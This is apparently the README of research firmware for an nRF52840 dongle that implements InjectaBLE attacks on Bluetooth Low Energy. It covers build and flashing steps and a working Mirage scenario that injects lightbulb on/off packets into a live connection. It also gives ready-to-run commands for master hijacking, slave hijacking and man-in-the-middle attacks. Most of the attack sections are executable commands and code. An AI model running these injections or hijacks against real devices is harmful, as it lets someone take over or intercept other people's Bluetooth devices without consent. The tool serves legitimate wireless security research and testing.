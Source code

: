 # injectable-firmware
Custom firmware for nrf52840-dongle, allowing to easily eavesdrop Bluetooth Low Energy communications and perform multiple active attacks based on InjectaBLE strategy.

## Installing the environment
* Install the latest ARM GCC Toolchain (C++ support needed), add it to your PATH variable
* Download the latest NRF5 SDK from nordic semiconductors
* Install nrfutil and add it to your PATH variable
* Modify the SDK_ROOT variable in Makefile to match the SDK directory

## Compiling the firmware
Compiling the firmware is straigtforward:
```
$ make
```

Then, you can use the send command to flash it on the dongle:
```
$ make send
```

The dongle should now be detected by your operating system:
```
$ lsusb
[...]
Bus 001 Device 039: ID 5a17:0000 Mirage Toolkit SALTO device
[...]
```

## Injecting packets into an established connection
You can use Mirage framework to interact with the dongle and perform injection attacks. For example, let's imagine you want to inject packets into a Bluetooth Low Energy connection between a lightbulb and a smartphone. You know that the following packets allow to turn the bulb on or off:

* **Write command | handle = 0x0021 | data = 5510010d0a:** turn the bulb on
* **Write command | handle = 0x0021 | data = 5510000d0a:** turn the bulb off

You can write the following scenario, which will inject the "on" packet when the up arrow key is pressed and the "off" packet when the down arrow key is pressed:

```
from mirage.core import scenario
from mirage.libs import io,ble,utils

class injection_lightbulb(scenario.Scenario):

	def onStart(self):
		self.emitter = self.module.getEmitter(self.module["INTERFACE"])

	def onKey(self,key):
		if key == "up":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x01\x0d\x0a"))
		elif key == "down":
			self.emitter.send(ble.BLEWriteCommand(handle=0x0021,value=b"\x55\x10\x00\x0d\x0a"))
```

1) Save this scenario as **injection_lightbulb.py** in the *scenarios* folder.
2) Run the **ble_sniff** module with the following parameters:
```
sudo ./mirage_launcher ble_sniff SNIFFING_MODE=newConnections SCENARIO=injection_lightbulb INTERFACE=salto0
```

3) Establish the connection between the smartphone and the lightbulb: when you are synchronized with the connection, you can simply inject the previously mentioned packets by pressing up or down arrows keys.


## Hijacking the master role (experimental)
InjectaBLE allows to perform master hijacking attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with the Slave when the Master changes its connection parameters. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_master" ble_hijack1.INTERFACE=salto0 ble_hijack1.ROLE=master
```


## Hijacking the slave role (experimental)
InjectaBLE allows to perform slave hijacking attacks by injecting a LL\_TERMINATE\_IND packet and synchronize with the Master when the Slave disconnects. You can perform this kind of attacks using **ble_hijack** module:
```
sudo ./mirage_launcher "ble_hijack|ble_slave" ble_hijack1.INTERFACE=salto0 ble_hijack1.ROLE=slave
```


## Performing a MiTM attack (experimental)
InjectaBLE allows to perform MiTM attacks by injecting a LL\_CONNECTION\_UPDATE\_IND packet and synchronize with both legitimate devices when the Master changes its connection parameters. You can perform this kind of attacks using **ble_mitm** module:
```
sudo ./mirage_launcher ble_mitm INTERFACE=salto0 MITM_STRATEGY=injection
```

